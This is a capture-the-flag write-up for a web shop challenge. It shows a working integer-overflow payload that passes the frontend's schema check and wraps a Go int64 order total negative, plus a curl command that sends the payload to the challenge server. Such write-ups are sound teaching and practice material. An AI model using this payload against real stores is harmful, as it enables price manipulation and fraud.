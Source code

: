 # CTFChallengeShop
The website shows a basic shopping menu:

![Homepage](Homepage.png)

It's immediately obvious that our target is to trick the backend into giving us the flag. Line 52 of the frontend: source

```
resp = requests.post("http://localhost:8000/process", data=request.get_data())
```
shows us that all valid url requests are sent to ```http://localhost:8000/process```, but line 72:
```
@app.route("/process")
```
does not have any valid HTTP request methods, meaning that we have to circumvent whatever sanitization is implemented by the front end.

Here is the body of a valid request, generated by the website when buying 1 ```pwn 2``` and 1 ```crypto 2``` items:
```
{
    "cart": [
        {
            "id": 2,
            "qty": 1
        },
        {
            "id": 3,
            "qty": 1
        }
    ],
    "orderId": 0
}
```

Lines 46-52:
```
if request.method == "POST":
    data = request.get_json(force=True)
    try:
        jsonschema.validate(instance=data, schema=schema)
    except jsonschema.exceptions.ValidationError as e:
        return jsonify({"error": f"failed to validate {data}"})
    resp = requests.post("http://localhost:8000/process", data=request.get_data())
```
shows that the frontend validates our request against the schema defined on line 16:
```
schema = {
    "type": "object",
    "properties": {
        "orderId": {
            "type": "number",
            "maximum": 10,
        },
        "cart": {
            "type": "array",
            "items": {
                "type": "object",
                "properties": {
                    "id": {
                        "type": "number",
                        "minimum": 0,
                        "exclusiveMaximum": len(productDB),
                    },
                    "qty": {
                        "type": "integer",
                        "minimum": 1
                    },
                },
                "required": ["id", "qty"],
            },
        },
    },
    "required": ["orderId", "cart"],
}
```
This schema reveals a couple pieces of useful restrictions:
1. id >= 0
2. qty >= 1

Line 25 of the backend reveals that the price is calculated using an int64 type:
```
total = total + productDB[id]["price"].(int64) * qty
```
Our goal is to make the ```total``` variable less than ```1000```.

Rule #2 above means that we can't set the ```qty``` to 0, but we can likely use an integer overflow to trick the backend into setting total to less than 0. ```int64``` types in Go have a maximum size of ```9223372036854775807```. We can use the following payload to get past the sanitization implemented in the frontend, and have it flip to a negative number in the backend.
```
{
	"cart": [
		{
			"id": 10,
			"qty": 9223372036854775808
		}
		],
	"orderId": 0
}
```

Using ```curl -X POST -H "Content-Type: application/json" -d @payload.json https://ctfchallengeshop.fly.dev/```, this reveals the flag.